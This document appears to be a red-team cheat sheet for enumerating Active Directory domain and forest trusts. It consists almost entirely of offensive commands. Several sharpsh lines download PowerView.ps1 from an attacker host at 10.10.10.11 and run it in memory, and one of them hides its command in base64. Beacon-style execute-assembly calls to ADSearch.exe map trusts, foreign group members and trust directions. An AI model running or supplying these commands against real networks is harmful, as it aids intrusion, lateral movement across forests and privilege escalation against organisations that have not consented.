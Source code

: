 # Trusts

## Powerview

### 1) Get the domain/forest trusts

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainTrust"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainTrust -NET"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainTrust -API"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainTrust -Domain dev.domain.com"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainTrust -Domain hr.domain.com"'
    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainTrust -Domain domain.com"'


### 2) Get domain trusts mapping (between each other)

    sharpsh -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainTrustMapping"'


### 3) Get foreign members from part of current domain from another forest (run for all forests with which we have trust)

    sharpsh -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainForeignGroupMember -Domain dev.domain.com"'
    sharpsh -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainForeignGroupMember -Domain hr.domain.com"'
    sharpsh -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainForeignGroupMember -Domain domain.com"'


### 4) Check which users/groups are part of localgroups on machines based on GPO policies

    sharpsh -t 20 -- '-u http://10.10.10.11/powershell-scripts/PowerView.ps1 -c "Get-DomainGPOUserLocalGroupMapping"'


### 5) Get forest groups accessible to our forest with SID >= 1000 - For SID filtering (base64 encode on cyberchef)

    Get-DomainGroup -LDAPFilter "(objectSID>=S-1-5-21-201072640-2662162558-1369012345-1000)" -Domain domain.com | select cn,memberof,objectSID
    sharpsh -i -t 20 -- -u http://10.10.10.11/powershell-scripts/PowerView.ps1 -e -c R2V0LURvbWFpbkdyb3VwIC1MREFQRmlsdGVyICIob2JqZWN0U0lEPj1TLTEtNS0yMS0yMDEwNzI2NDAtMjY2MjE2MjU1OC0xMzY5MDEyMzQ1LTEwMDApIiAtRG9tYWluIGRvbWFpbi5jb20gfCBzZWxlY3QgY24sbWVtYmVyb2Ysb2JqZWN0U0lE

## ADSearch

### 1) List down all users - we get the trust user as well -> CORP1$

    execute-assembly /home/kali/tools/bins/csharp-files/ADSearch.exe --search "(objectCategory=user)"


### 2) List down the trusts, its way and the trusting/trusted domain

    execute-assembly /home/kali/tools/bins/csharp-files/ADSearch.exe --search "(objectCategory=trustedDomain)" --domain domain.com --attributes distinguishedName,name,flatName,trustDirection
